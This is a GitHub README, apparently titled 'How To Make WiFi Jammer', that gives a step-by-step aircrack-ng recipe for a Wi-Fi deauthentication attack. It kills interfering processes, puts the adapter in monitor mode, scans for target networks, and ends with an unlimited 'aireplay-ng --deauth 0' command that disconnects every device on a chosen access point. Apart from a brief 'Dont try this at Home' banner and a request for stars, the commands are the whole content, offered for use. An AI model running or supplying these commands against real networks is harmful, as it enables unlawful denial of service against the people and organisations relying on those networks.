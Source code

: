 
<h1 align="center">Welcome to Repositorie of WiFi Jammer 👋</h1>
<p>
<img src="https://img.shields.io/badge/version-0.1-blue.svg?cacheSeconds=2592000" />
</p>
<img src="https://raw.githubusercontent.com/AnandKatariya/Kali-Linux-Jupyter-Notebook-Installation/a9eea7518be7dadfdc60ac934d98e59735590209/Image/made-with-kali-linux.svg" >


### 🏠 [Homepage](https://github.com/AnandKatariya?tab=repositories)
<p align =center >
  <img src="https://thumbs.gfycat.com/EvergreenPolishedBunny-max-1mb.gif" height='246' width='250' />
</p>

<h1 align="center">Dont try this at Home, School,Or any other public place!!!</h1>
<br>

<h1 align="center"> Introduction to WiFi Jammer </h1>
<p>
 
## Check
```sh
iwconfig
```
Check weather the mode is on moniter mode or managed mode.

  ## Clear all stuff

```sh
airmon-ng check kill
```
check and kill off processes that might interfere with the aircrack-ng suite.

  ## Moniter mode

```sh
airmon-ng start wlan0
```
Airmon-ng is used to read all the packets of data even if they are not sent to us. It controls the traffic received only on the wired/wireless networks. Wi-Fi adapters are mainly used for connecting your device to the internet. Most laptops, tablets, and mobile phones have an inbuild Wi-Fi card.

  ## Search the target

```sh
airodump-ng wlan0mon
```
After doing this you will able to see a interface that will show you wifi network around you which are available and with this you will able to see many other columns such as CH (channel), bssid and many more.

  ## Jamming The WiFi

```sh
aireplay-ng --deauth 0 -a <target_mac> wlan0mon
```
After doing this all the device which are connected to this WiFi will be disconnect cause this process will send deauthentication packges and due to this the WiFi we be get stuck and it will not able to connect any other device and this process will cause WiFi Jamming.

 ## Author

👤 **Anand Katariya**

* Github: [@AnandKatariya](https://github.com/AnandKatariya)
 
## 🤝 Contributing

Contributions, issues and feature requests are welcome!<br />Feel free to check [issues page](https://github.com/AnandKatariya/How-To-Make-WiFi-Jammer/issues).

  ## Show your support

<h1> Give a ⭐️ if this project helped you! <br>
Stay tuned for more updates </h1>
